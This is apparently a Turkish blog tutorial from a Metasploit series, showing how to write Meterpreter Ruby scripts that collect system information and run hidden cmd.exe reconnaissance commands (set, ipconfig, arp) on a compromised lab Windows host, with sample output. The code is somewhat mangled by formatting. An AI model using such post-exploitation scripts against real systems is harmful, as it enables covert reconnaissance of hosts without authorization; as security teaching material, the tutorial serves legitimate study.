 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Düzenleme'
date: '2017-06-14T13:49:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve\_helloworld.rb\_olarak\_/usr/share/metasploit-framework/scripts/meterpreter\_klasörüne kayıt edelim." 
 
url:  /tr/msf-meterpreter-script-duzenleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.


```bash
root@kali:~# echo “print_status**(**“Hello World”**)**” **&gt;** /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```



Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.


```bash
meterpreter **&gt;** run helloworld
**[*********]** Hello World
meterpreter **&gt;**
```



Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.


```bash
print_error**(**“this is an error!”**)**
print_line**(**“this is a line”**)**
```



Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.


```bash
meterpreter **&gt;** run helloworld
**[*********]** Hello World
**[**-] this is an error!
this is a line
meterpreter **&gt;**
```



## helloworld.rb



Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.


```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```



Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.


```bash
 def geninfo**(**session**)**
    begin
    …..
    rescue ::Exception **=&gt;** e
    …..
    end
 end
```



Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.


```bash
 def getinfo**(**session**)**
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status**(**"Getting system information ..."**)**
       print_status**(**"tThe target machine OS is #{sysnfo['OS']}"**)**
       print_status**(**"tThe computer name is #{'Computer'} "**)**
       print_status**(**"tScript running as #{runpriv}"**)**
    rescue ::Exception **=&gt;** e
       print_error**(**"The following error was encountered #{e}"**)**
    end
 end
```



Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.



## helloworld2.rb



İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.


```bash
 def getinfo**(**session**)**
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status**(**"Getting system information ..."**)**
       print_status**(**"tThe target machine OS is #{sysnfo['OS']}"**)**
       print _status**(**"tThe computer name is #{'Computer'} "**)**
       print_status**(**"tScript running as #{runpriv}"**)**
 rescue ::Exception **=&gt;** e
       print_error**(**"The following error was encountered #{e}"**)**
    end
 end

 getinfo**(**client**)**
```



Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.


```bash
 meterpreter **&gt;** run helloworld2
 **[*********]** Getting system information ...
 **[*********]**     The target machine OS is Windows XP **(**Build 2600, Service Pack 3**)**.
 **[*********]**     The computer name is Computer
 **[*********]**     Script running as WINXPVM01labuser
```



Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.



## helloworld3.rb



Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.


```bash
def list_exec**(**session,cmdlst**)**
    print_status**(**"Running Command List ..."**)**
    r**=**''
    session.response_timeout**=**120
    cmdlst.each **do** |cmd|
       begin
          print_status "running command #{cmd}"
          r **=** session.sys.process.execute**(**"cmd.exe /c #{cmd}", nil, **{**'Hidden' **=&gt;** true, 'Channelized' **=&gt;** true**})**
          **while****(**d **=** r.channel.read**)**             print_status**(**"t#{d}"**)**
          end
          r.channel.close
          r.close
       rescue ::Exception **=&gt;** e
          print_error**(**"Error Running Command #{cmd}: #{e.class} #{e}"**)**
       end
    end
 end commands **=** **[** "set",
    "ipconfig  /all",
    "arp -a"**]** list_exec**(**client,commands**)**
```



Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.



`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.


```bash
 commands **=** **[** “set”,
    “ipconfig  /all”,
    “arp –a”]
```



Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.



Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.


```bash
 meterpreter **&gt;** run helloworld3
 **[*********]** Running Command List ...
 **[*********]**     running command set
 **[*********]**     ALLUSERSPROFILE**=**C:\Documents and Settings\All Users
 APPDATA**=**C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles**=**C:\Program Files\Common Files
 COMPUTERNAME**=**TARGET
 ComSpec**=**C:\WINNT\system32\cmd.exe
 HOMEDRIVE**=**C:
 HOMEPATH**=**
 LOGONSERVER**=**TARGET
 NUMBER_OF_PROCESSORS**=**1
 OS**=**Windows_NT
 Os2LibPath**=**C:\WINNT\system32\os2dll;
 Path**=**C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT**=**.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE**=**x86
 PROCESSOR_IDENTIFIER**=**x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL**=**6
 PROCESSOR_REVISION**=**0706
 ProgramFiles**=**C:\Program Files
 PROMPT**=**$P$G
 SystemDrive**=**C:
 SystemRoot**=**C:\WINNT
 TEMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN**=**TARGET
 USERNAME**=**P0WN3D
 USERPROFILE**=**C:\Documents and Settings\P0WN3D
 windir**=**C:\WINNT **[*********]**     running command ipconfig  /all
 **[*********]**     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM **[*********]**     running command arp -a
 **[*********]**     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter **&gt;**
```



Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.
